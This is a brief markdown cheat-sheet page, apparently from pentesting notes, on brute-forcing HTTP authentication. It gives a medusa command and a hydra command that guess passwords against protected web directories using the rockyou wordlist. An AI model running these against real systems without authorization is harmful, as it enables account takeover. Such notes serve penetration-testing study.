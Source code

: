 ```yaml
---
title: HTTP Authentication
parent: Web
layout: default
nav_order: 3
---
```


1. `medusa -h 10.11.0.22 -u admin -P /usr/share/seclists/rockyou.txt -M http -m DIR:/admin -n PORT`\
   (Suitable for htaccess protected web dir. Replace -u with -U if have wordlist. dir with the directory path to crack.)
2. hydra:\
   `hydra -L user.txt -P /usr/share/seclists/rockyou.txt IP http-get /path`